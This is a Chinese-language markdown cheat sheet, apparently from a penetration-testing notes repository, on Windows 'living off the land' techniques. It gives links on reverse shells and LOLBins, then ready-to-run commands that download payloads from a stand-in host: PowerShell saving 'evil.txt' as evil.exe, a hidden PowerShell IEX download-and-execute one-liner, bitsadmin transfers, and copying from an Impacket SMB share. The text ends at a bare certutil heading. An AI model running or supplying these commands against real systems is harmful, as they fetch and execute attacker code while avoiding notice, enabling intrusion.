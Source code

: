 
# 漏洞利用

- [OS-Exploits](./OS-Exploits.md#Windows)

---

# LOL

`Living Off The Land`

**相关文章**
- [Get Reverse-shell via Windows one-liner](https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/)
- [What Are LOLBins and How Do Attackers Use Them in Fileless Attacks? - Cynet](https://www.cynet.com/attack-techniques-hands-on/what-are-lolbins-and-how-do-attackers-use-them-in-fileless-attacks/)
- [Windows文件下载执行的15种姿势](https://mp.weixin.qq.com/s/tINvBuhiZwz7MbA_sffapA)

**相关资源**
- [LOLBAS](https://lolbas-project.github.io/)

**powershell**

远程下载文件保存在本地
```
powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.1.1/1/evil.txt','evil.exe')
```

远程执行命令
```
powershell -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.1.1/1/evil.txt'))"
```

**smb**

kali 使用 Impacket
```bash
mkdir smb && cd smb
impacket-smbserver share `pwd`
```

windows 命令行下拷贝
```
copy \\IP\share\file.exe file.exe
```

**Bitsadmin**

bitsadmin 是一个命令行工具，可用于创建下载或上传工作和监测其进展情况。
```
bitsadmin /transfer n http://192.168.1.1/1/evil.txt d:\test\1.txt
```

**certutil**
